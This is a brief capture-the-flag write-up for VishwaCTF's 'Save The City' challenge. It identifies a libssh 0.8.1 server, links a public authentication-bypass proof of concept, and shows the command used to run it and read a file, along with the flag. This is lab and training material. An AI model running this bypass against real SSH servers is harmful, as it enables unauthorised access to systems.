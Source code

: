# Save The City
Web(200 points)

**DESCRIPTION**
> The RAW Has Got An Input That ISIS Has Planted a Bomb Somewhere In The Pune! Fortunetly, RAW Has Infiltratrated The Internet Activity of One Suspect And They Found This Link. You Have To Find The Location ASAP!

It was a remote challenge, on starting it with netcat, we get the following output:
`SSH-2.0-libssh_0.8.1`

I searched this on google and found this [CVE](https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d)
By downloading this payload, we can run this:
```
python3 filename.py  {target_ip} -p {port} -v -c 'cat location.txt'
```
We get the following text: `elrow-club-pune`
Putting this text inside the flag format is the flag:)
>VishwaCTF{elrow-club-pune}
